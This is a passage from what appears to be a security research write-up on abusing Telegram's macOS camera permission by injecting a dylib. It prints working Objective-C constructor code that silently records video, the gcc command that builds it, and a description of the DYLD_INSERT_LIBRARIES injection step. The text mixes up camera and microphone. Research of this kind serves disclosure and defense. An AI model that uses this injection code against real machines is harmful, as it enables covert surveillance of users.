 ```objc

- (void)stopRecording {
    [self.movieFileOutput stopRecording];
    [self.captureSession stopRunning];
    NSLog(@"Recording stopped");
}

#pragma mark - AVCaptureFileOutputRecordingDelegate

- (void)captureOutput:(AVCaptureFileOutput *)captureOutput
didFinishRecordingToOutputFileAtURL:(NSURL *)outputFileURL
      fromConnections:(NSArray<AVCaptureConnection *> *)connections
                error:(NSError *)error {
    if (error) {
        NSLog(@"Recording failed: %@", [error localizedDescription]);
    } else {
        NSLog(@"Recording finished successfully. Saved to %@", outputFileURL.path);
    }
}

@end

__attribute__((constructor))
static void telegram(int argc, const char **argv) {
    VideoRecorder *videoRecorder = [[VideoRecorder alloc] init];

    [videoRecorder startRecording];
    [NSThread sleepForTimeInterval:3.0];
    [videoRecorder stopRecording];

    [[NSRunLoop currentRunLoop] runUntilDate:[NSDate dateWithTimeIntervalSinceNow:1.0]];
}
```

Which we will compile by using gcc agian:

```shell
$ gcc -dynamiclib -framework Foundation -framework AVFoundation telegram.m -o telegram.dylib
```

Now if we take the Dylib and use the `DYLD_INSERT_LIBRARIES` parameter as we did before, and inject the Dylib into Telegram, we will encounter the following message:

```
"Terminal" would like to access the camera."
```

It seems that the Terminal app is trying to access the microphone instead of Telegram! So, what's actually happening here?

In macOS, when we run applications through the Terminal, the applications inherit its Sandbox profile. Therefore, it seems that at this stage, the Terminal app is actually restricting access to the microphone.
